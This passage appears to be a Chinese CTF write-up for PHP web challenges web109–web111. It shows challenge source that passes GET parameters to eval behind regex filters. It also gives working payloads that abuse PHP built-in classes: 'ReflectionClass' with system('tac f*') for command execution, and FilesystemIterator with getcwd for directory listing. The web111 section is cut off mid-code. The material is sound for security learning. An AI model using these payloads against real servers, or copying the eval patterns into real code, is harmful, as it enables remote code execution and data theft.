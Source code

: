 ```
v1和v2至少要匹配到一个字母，且v1和v2 new后面有一个类不报错
任意找一个php的内置类使得其不报错
payload: v1=ReflectionClass&v2=system('tac f*')
```

![image-20220811234321869](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202208112343959.png?x-oss-process=hzy)

# web110

```
<?php
highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v2)){
            die("error v2");
    }
    eval("echo new $v1($v2());");
}
?>
```

> ```
> getcwd()函数 获取当前工作目录
> 语法
> getcwd();
> ```

php原生类，可遍历目录类`FilesystemIterator`

```
?v1=FilesystemIterator&v2=getcwd
```

![image-20220811234645708](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202208112346792.png?x-oss-process=hzy)

# web111

> 变量覆盖

```
<?php
highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

function getFlag(&$v1,&$v2){
    eval("$$v1 = &$$v2;");
    var_dump($$v1);
}


if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

```